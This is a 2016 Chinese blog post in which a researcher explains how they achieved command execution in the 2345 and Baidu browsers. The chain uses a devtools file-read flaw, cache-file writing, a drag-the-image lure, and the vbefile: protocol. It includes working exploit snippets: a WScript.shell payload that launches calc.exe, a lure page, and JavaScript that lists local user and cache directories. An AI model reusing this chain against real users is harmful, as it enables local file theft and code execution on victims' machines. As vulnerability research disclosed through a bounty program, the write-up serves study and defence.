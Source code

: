 ```yaml
---
layout:		post
title:		那些年我搞过的两个浏览器
subtitle:	弹个计算器
data:		2016-10-18
author:		"dogewatch"
header-img:	"img/home-bg-o.jpg"
tags:
    - web
---
```


> web狗也能弹计算器

# 前言

那是一个乌云还在的日子，某天正逛着逛着的时候，突然发现了这么一个洞：[QQ浏览器9本地文件读取&远程命令执行](http://wooyun.org/bugs/wooyun-2016-0176314.html)，一瞬间就像看到了一扇通往新世界的大门一样，原来web狗也能弹计算器！看完后就开始尝试自己去挖一些浏览器的漏洞，也挖出过两个浏览器的命令执行，这里做个小小的总结。

# 2345浏览器

虽然用浏览器来命令执行的方式有很多，但是作为一个web选手，所会的只是利用某些漏洞往本地写脚本命令，然后用`vbefile:`协议来执行这个脚本文件了。

## 背景漏洞

### 0x00

在某些版本的chrome浏览器中，存在这样一个漏洞。访问url：

`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://xxx.com/&remoteFrontend=true`

浏览器就会加载执行xxx.com下的`screencast_module.js`文件。而在这个文件中，就有权限调用DevToolsAPI。利用向外部容器发送`loadNetWorkResource`就可以实现读取本地文件和列目录。实例代码如下：

```javascript
var data="";
DevToolsAPI.streamWrite = function(id,chunk){
  data += chunk;
}
DevToolsAPI.sendMessageToEmbedder(
  "loadNetWorkResource",
  ["file:///C:/Users","",0],
  function(){
    console.log(data);
  }
);
```
![img](/img/post/calc-1.png)

## 构造exp

想要让浏览器去执行脚本命令，需要这么几步：

`向本地写脚本文件 -> 获取这个文件的绝对路径 -> 调用vbefile执行这个文件`

### 0x01

首先是写文件，这个简单，利用浏览器的cache机制，构造一定大小的页面，让浏览器把页面内容写入到cache目录中。cache目录在`chrome://version`中可以看到。这里2345浏览器的cache目录是`C:\Users\「你的用户名」\AppData\Local\2345Explorer\User Data\Default\Cache`，当页面大小在30k左右时就会生成一个独立的缓存文件了。

### 0x02

要执行这个文件，还需要解决的问题就是，获取这个文件的绝对路径值。可以看到绝对路径的大部分内容都是固定的，需要我们获取的就是用户名的值和写入的这个缓存文件的值。那么通过背景漏洞我们可以用列目录的方式来得到用户名和文件名。

但是这里又有了一个新的问题，就是由于浏览器对特权域的保护，使得`location.href`、`window.open`或者iframe加载等方式都不能打开`chrome-devtools`域下的url，而让用户自己去填这个url到地址栏里打开又太不靠谱了，所以我们需要有一个跨域的办法。

通常要跨到这种特权域有两种办法，一种是找到浏览器自带的某些特权api，这种api能访问指定的url地址，例如这个2345浏览器里的`chrome.ntp2345.prepareThumbnail`。还有一种办法就是利用该浏览器的跨域漏洞直接跨到`chrome-devtools`域。这两种办法各有自己的优缺点，第一种方式在找到这种api后，还需要找一个该api所在域的xss漏洞来执行这个api，而第二种方式则很难挖到。在这里我会采用第二种方式，利用一个所有的国产浏览器都存在且不重视的“小问题”来直接跨域访问。

### 0x03 所有国产浏览器都忽略的一个“小问题”

所有的国产浏览器都支持这样一个功能，就是鼠标点击一个链接后拖拽，则会在一个新标签页中打开这个url，而这个操作对url没有任何的限制，可以通过这种方式打开`file://`、`chrome://`、`chrome-devtools://`等url。chrome浏览器本身则不支持这种方式。所以这里我打算在链接上覆盖一张图片，通过诱使用户拖拽着张图片的方式来跨域访问目标url。

### 0x04 

进行到现在，能够写文件，能够得到文件的绝对路径，那么只需要在页面中加上一句js就能执行这个脚本里的命令了：

```````javascript
location.href='vbefile:../../../../../Users/'+uname+'/AppData/Local/2345Explorer/User Data/Default/Cache/'+fname+'" //E:jscript //B"';
```````

这里用到了二哥@gainover提供的一个小tips。因为缓存文件名没有.js后缀，所以需要带上`//E:jscript`来为其指定解析引擎，而`//B`是为了如果遇到错误，不让系统弹出错误提示框。

弹个计算器(因为交了补天了，所以直接在上面扒个图)

![img](/img/post/calc-2.png)

# 百度浏览器

利用方式跟上面那个差不多，所以就写到一篇博客里了。不同点在于，因为这个浏览器不存在devtools那个漏洞了，所以获取用户名就使用的是chajian.baidu.com域下的特权api`external.StartRequest`。

![img](/img/post/calc-4.jpeg)

至于跨到这个域下，则是使用了一个价值7500美刀的[uxss漏洞](https://bus.chromium.org/p/chromium/issues/detail?id=569496)。文件名那里的处理则换了种方式，因为缓存文件是按照一个固定格式生成的，而且数量有限，所以在不能列目录的情况下完全可以通过爆破文件名的方式来做到命令执行。

![img](/img/post/calc-3.jpeg)

# 部分利用代码

缓存文件

```html
var r=new ActiveXObject("WScript.shell");
			r.run("calc.exe");/*
AAAAAAAAAAAA.............足够多的任意字符
<script>location.href='http://127.0.0.1/2345/calc.htm';</script>*/
```

诱使用户拖拽图片页面

```html
<html>
<div style="background:url('https://o4qgwtf0t.qnssl.com/wp-content/uploads/2016/06/69485935.jpg');z-index: 999;width:140px; height:140px;">
<input readonly="readonly" style="width:140px;height:140px;border:none;background:none;border-style:none;text-indent:-9999px;outline:none;"
type="text" value="chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/2345/screencast_module.php?&remoteFrontend=true" onclick="this.select();" onmousedown="this.select();">
</html>
```

获取用户名和文件名的部分代码

```javascript
DevToolsAPI.sendMessageToEmbedder(
    "loadNetworkResource",
    [ "file:///C:/Users", "", 0 ],
    function (result) {
        //var x=new XMLHttpRequest();x.open("POST","http://127.0.0.1/2345/recv.php",true);x.send(data);
        r1 = /(?:\<script\>addRow\(\")(.+?)(?:\")/g;
        while(true){
            try{
                var uname = r1.exec(data)[1];
                if(uname != '..' && uname != 'All Users' && uname != 'Default User' && uname != 'Public' && uname != 'desktop.ini' && uname != 'Default'){
                    //console.log(uname);
                    var filename = "";
                    DevToolsAPI.streamWrite = function(id, chunk){
                        filename += chunk;
                    }
                    DevToolsAPI.sendMessageToEmbedder(
                    "loadNetworkResource",
                    ["file://C:/Users/"+uname+"/AppData/Local/2345Explorer/User Data/Default/Cache", "", 0],
                    function(){
                        r2 = /(?:\<script\>addRow\(\")(.+?)(?:\".+,0,\"29\.4 kB\")/g;
                        r3 = /(.+?)(?:\",)/g;
                        while(true){
                            try{
                                var fname = r2.exec(filename)[1];
                                location.href='vbefile:../../../../../Users/'+uname+'/AppData/Local/2345Explorer/User Data/Default/Cache/'+fname+'" //E:jscript //B"';
                            }catch(e){break;}
                        }
                    }
                    );
                    break;
                }
                //console.log(r1.exec(data)[1]);
            } catch (e){break;}
        }
    }
);
```

# 后记

挖这几个浏览器的洞是我目前见到的奖金最多的洞了，比审php高多了T_T。然而感觉还只是理解了皮毛，比如说那个uxss就没能理解原理。但愿有一天也能挖出chrome的洞，去挣挣美刀。